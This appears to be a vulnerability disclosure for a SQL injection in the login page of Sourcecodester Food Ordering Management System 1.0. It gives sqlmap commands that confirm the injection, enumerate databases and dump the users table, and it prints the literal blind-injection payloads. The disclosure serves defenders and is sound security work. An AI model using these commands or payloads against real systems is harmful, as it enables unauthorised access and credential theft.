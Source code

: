 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: login.hp

Injection parameter: username


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The username and password fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the login.php:

`http://172.16.76.1/foms/login.php`

![image](https://github.com/jadu101/CVE/assets/76433661/5f48cb34-18a4-4b03-8848-964b87b60b94)

We will first intercept the login traffic using Burp Suite:

![image-1](https://github.com/jadu101/CVE/assets/76433661/cf2eb00b-1072-4879-871d-fea55e0e27ee)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter username is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_login_php.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/cefe36df-faac-4a01-add2-d8ea640290bd)

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7413=7413 AND 'DhRh'='DhRh&password=admin123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3140 FROM (SELECT(SLEEP(5)))KQvB) AND 'JGgH'='JGgH&password=admin123
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p username --dbs`

![image-3](https://github.com/jadu101/CVE/assets/76433661/fe318b8c-e4cd-4110-bcf6-f2fe4b11ece3)


Below command will dump data inside foms_db database table users:

`sqlmap -r foms_login_php.txt --batch -p username --dbs -D foms_db -T users --dump`

![image-4](https://github.com/jadu101/CVE/assets/76433661/a9cb9cc8-14a4-4517-bb1b-7e0f27c15665)
